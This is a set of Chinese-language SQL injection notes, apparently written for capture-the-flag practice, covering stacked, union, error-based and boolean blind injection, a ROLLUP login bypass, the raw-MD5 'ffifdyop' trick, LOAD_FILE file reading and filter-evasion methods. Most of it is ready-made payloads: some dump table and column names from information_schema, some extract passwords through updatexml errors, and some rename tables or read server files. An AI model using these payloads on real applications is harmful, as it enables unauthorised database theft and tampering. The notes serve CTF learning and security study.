 ## SQLi

#### 字符型

测试步骤：

payload为`'#`不会报错

#### 整数型

payload为`1'`会报错

### 注入姿势：

#### 堆叠注入

类似Linux下的命令注入 ，要目标开启多语句执行才行

例：

```sql
1';alter table `words` rename to `word`;alter table `1919810931114514` rename to `words`;alter table words change flag id varchar(100);
```



#### HANDLER[TABLE]OPEN语句

MySQL 专用的语句，并没有包含到SQL标准中。

HANDLER [表名] OPEN;语句打开一个表，使其可以使用后续HANDLER [表名] READ；该表对象未被其他会话共享，并且在会话调用HANDLER [表名] CLOSE;或会话终止之前不会关闭

```sql
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere  close;#
```



#### union 注入

要注意观察回显的位置，选择在哪里注入sql很重要

```sql
1'union selcet 1,2,3%23
1'order by 3%23
1'union select 1,2,database()%23
#查库
1'union select 1,2,group_concat(schema_name)from(information_schema.schemata)%23
#查表
1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23
#查字段
1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name="geekuser"%23#表名有单引号
```

#### 报错注入

```sql
password=1'OR(updatexml(1,concat('~',database(),'~'),1))%23
```

```sql
1'or(updatexml(1,concat('~''~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),'~'),1))%23
```

```sql
#报错注入对回显有字数限制，所以采用左右显示以补全flag
admin'or(updatexml(1,concat('~',(select(group_concat((right(password,25))))from(H4rDsq1)),'~'),1))%23
```

#### 布尔盲注

```sql
if(ascii(substr(database(),1,1))=101,1,2)
0||ascii(substr(database()/**/from/**/1/**/for/**/1))
```

#### 查询时产生新的行列进行匹配绕过（通常后台分为两次查询）

**1.group by 子句：rollup**，在group by产生结果时，会对结果进行汇总，默认情况下会生成一个NULL值作为统计名

```sql
SELECT 
    warehouse, SUM(quantity)
FROM
    inventory
GROUP BY ROLLUP(warehouse);
```

产生：

```tex
warehouse              SUM(quantity)
San Fransisco          560
San Jose               650
Null                   1210
```

[CTFshow-web10](https://blog.csdn.net/weixin_46439278/article/details/109555667)

payload:

对查询出来的用户名进行汇总

```sql
admin'or/**/1=1/**/group/**/by/**/password/**/with/**/ROLLUP#
```



#### Mysql中的MD5函数

 md5(string,raw)

raw：可规定16进制(false)还是二进制输出(true)。有一道题：[CTFshow-web9](https://blog.csdn.net/March97/article/details/81222922)

```sql
select * from 'admin' where password=md5($pass,true)
```

```
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
```

如果raw为true，则返回的这个原始二进制不是普通的二进制（0，1），而是 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c 这种。 在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true，所以返回值就是true。当然在我后来测试中发现，不只是1开头，只要是数字开头都是可以的。

#### Mysql中的loadfile函数

 在MySQL中，LOAD_FILE()函数读取一个文件并将其内容作为字符串返回。

所以如果我已知存在GET型注入和目标文件，可以尝试使用这个函数去读取flag

```sql
?no=-1/**/union/**/%20select/**/1,load_file('/var/www/html/flag.php')%20,3,4#
```



### 过滤绕过：

#### 空格

```sql
1.url编码：%0a,%0b,%0c,%0d,%09,%a0,/**/
2.使用括号包裹
```

#### 单引号转义

[NCTF2019SQLi](https://blog.csdn.net/wuyaowangchuan/article/details/114362816)

在一些情况下，单引号被过滤了，那么这时候我们可以传入`\`字符，进行尝试

eg:

```sql 
#有如下sql语句
select * from table where name='$_GET[name]' and passwd='$_GET[passwd]'
```

那么我们传入`name=\&passwd=||/**/passwd/**/regexp/**/"^a"%00`，上面的语句会变为

```sql
select * from users where username='\' and passwd='||/**/passwd/**/regexp/**/"^a";
```

#### 等号=

使用like绕过

#### 使用``对关键字绕过



#### 16进制数作为字符串

在SQL语句中，会将16进制的串按照字符串解析，从而可以造成注入
